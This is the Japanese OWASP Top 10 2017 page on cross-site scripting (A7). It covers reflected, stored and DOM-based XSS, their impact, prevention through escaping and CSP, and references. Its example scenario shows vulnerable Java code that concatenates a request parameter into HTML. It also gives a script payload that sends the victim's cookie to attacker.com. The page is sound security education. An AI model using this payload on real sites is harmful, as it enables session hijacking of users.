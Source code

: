 # A7:2017-クロスサイトスクリプティング (XSS)

| 脅威エージェント/攻撃手法 | セキュリティ上の弱点           | 影響               |
| -- | -- | -- |
| アクセスレベル : 悪用のしやすさ 3 | 蔓延度 3 : 検出のしやすさ 3 | 技術面への影響 2 : ビジネス面への影響 |
| 3種類のXSSはいずれも、自動化ツールを用いて検出および悪用することが可能です。また、誰でも入手できる、XSSを悪用するためのフレームワークも複数存在します。 | XSSは、OWASP Top 10の中では2番目に多く見られる問題であり、アプリケーション全体のおよそ三分の二で検出されます。自動化ツールで、いくつかのXSS問題を検出できます。PHP、J2EE/JSP、またはASP.NETのような成熟した技術においては、特にそれが顕著です。 | XSSの影響は、リフレクトおよびDOMベースの場合は中程度、ストアドの場合は重大となります。具体的な被害例として、被害者のブラウザ上でリモートコードが実行されることによる、認証情報やセッションの奪取、被害者へのマルウェア感染が挙げられます。 |

## 脆弱性発見のポイント

XSSには3種類のタイプが存在し、大抵は被害者のブラウザがターゲットとされます:

* **リフレクトXSS**: アプリケーションまたはAPIが、ユーザ入力データを適切に検証およびエスケープせずに、HTML出力の一部として含めている。攻撃が成功すると、攻撃者は被害者のブラウザで任意のHTMLやJavaScriptを実行できる。一般的には、ユーザは、いわゆる水飲み場サイトや広告ページなど攻撃に乗っ取られたページに辿り着くための悪質なリンクを踏むことになる。
* **ストアドXSS**: アプリケーションまたはAPIがそのデータを無害化せずに格納する。それら入力データは、後に別のユーザまたは管理者によって閲覧されることになる。ストアドXSSは、大抵の場合、高または重大リスクとみなされる。
* **DOMベースXSS**: JavaScriptフレームワーク、シングルページアプリケーション、およびAPIが、攻撃者の制御可能なデータを動的に取り込んでページに出力することにより、DOMベースXSS脆弱性となる。理想を言えば、アプリケーションは安全でないJavaScript APIに対して攻撃者が制御可能なデータを送信してはいけない。

典型的なXSS攻撃には、セッションの奪取、アカウントの乗っ取り、多要素認証(MFA)の回避、DOMノードの置換または改竄(トロイの木馬を介した偽のログイン画面挿入等)、悪質なソフトウェアのダウンロードやキーロギング等のユーザのブラウザに対する攻撃などが含まれます。

## 防止方法

XSSを防止するには、信頼できないデータを動的なブラウザコンテンツから区別する必要があります。以下を実施します:

* 最新のRuby on RailsやReact JSなど、XSSに悪用されうるデータを自動的にエスケープするよう設計されたフレームワークを使用する。各フレームワークにおけるXSS対策の限界を確認し、対策の範囲外となるデータ使用については、適切な処理を行う。
* ボディ、属性、JavaScript、CSSやURLなどHTML出力のコンテキストに基づいて、信頼出来ないHTTPリクエストデータをエスケープすることで、リフレクトおよびストアドXSS脆弱性を解消できる。要求されるデータの詳細なエスケープ手法は [OWASP  Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) を参照のこと。
* クライアント側でのブラウザドキュメント改変時に、コンテキスト依存のエンコーディングを適用することで、DOMベースXSSへの対策となる。これが行えない場合には、OWASP Cheat Sheet 'DOM based XSS Prevention'で説明されている、同様のコンテキスト依存のエスケープ手法をブラウザAPIに適用することもできる。
* XSSに対する多層防御措置の一環として [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) を有効に設定する。これは、ローカルファイルインクルードを介して悪意のあるコードを設置可能にする他の脆弱性（例：パストラバーサルを悪用したファイルの上書き、許可されたコンテンツ配信ネットワークから提供された脆弱なライブラリ等）が存在しない場合に効果的である。

## 攻撃シナリオの例

**シナリオ #1**: あるアプリケーションは、検証やエスケープをせず、信頼出来ないデータを使用して、以下のHTMLスニペットを生成しています。

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
攻撃者はブラウザでパラメータ‘CC’を以下に改変します。

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

これにより、被害者のセッションIDが攻撃者のウェブサイトに送信され、被害者のセッションが乗っ取られます。

**注意**: 攻撃者は、アプリケーションが使用している自動化されたCSRF対策を、XSSで破ることができます。

## 参考資料

### OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### その他

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
